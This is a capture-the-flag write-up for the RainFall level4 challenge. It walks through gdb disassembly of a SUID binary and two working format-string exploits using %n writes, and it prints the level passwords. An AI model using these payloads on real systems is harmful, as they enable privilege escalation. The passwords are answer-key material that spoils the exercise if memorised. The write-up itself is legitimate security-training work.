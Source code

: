 Login as `level4`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level4
level3@192.168.1.28's password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
A `SUID` executable is located in the home directory.
```shell
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
Examine defined functions
```gdb
(gdb) info functions
[...]
0x08048444  p
0x08048457  n
0x080484a7  main
[...]
```
Global variable `m` is compared to `0x1025544` value. As it stored in `.bss` section - declared but have not been assigned a value.
```gdb
(gdb) disassemble n
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
```
Here two method to overwrite variable `m` with value `0x01025544`.

The first method, dirty and long, consist in writing 16930116 bytes and use `%n` to write this value (`0x01025544` in Hex) to selected address.
```gdb
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%016930112x%12$n"' | ./level4
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000[...]b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

The second one, is more creative and faster. It consit in writing in each byte of variable `m` which is lay between `0x08049810` to `0x08049813`.
First of all, those byte addresses where values should be written are putted on stack. Then, the value which should be written is divided by bytes `0x44`, `0x55`, `0x02`, `0x01`. It is done to calculate an offset for each value. This offest value would be a number which will be written in carefully-selected address. As addresses were placed previously, they can be selected using direct parameter access `$`.

0x44 = 68   | 4+4+4+4+x             = 68  (0x44)  : x = 52
0x55 = 85   | 4+4+4+4+52+x          = 85  (0x55)  : x = 17
0x02 = 2    | 4+4+4+4+52+17+x       = 258 (0x102) : x = 173
0x01 = 1    | 4+4+4+4+52+17+173+x   = 513 (0x201) : x = 255

```shell
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "\x11\x98\x04\x08" + "\x12\x98\x04\x08" + "\x13\x98\x04\x08" + "%052x%12$n" + "%017x%13$n" + "%0173x%14$n" + "%0255x%15$n"' | ./level4
00000000000000000000000000000000000000000000b7ff26b0000000000bffff794000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7fd0ff4000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

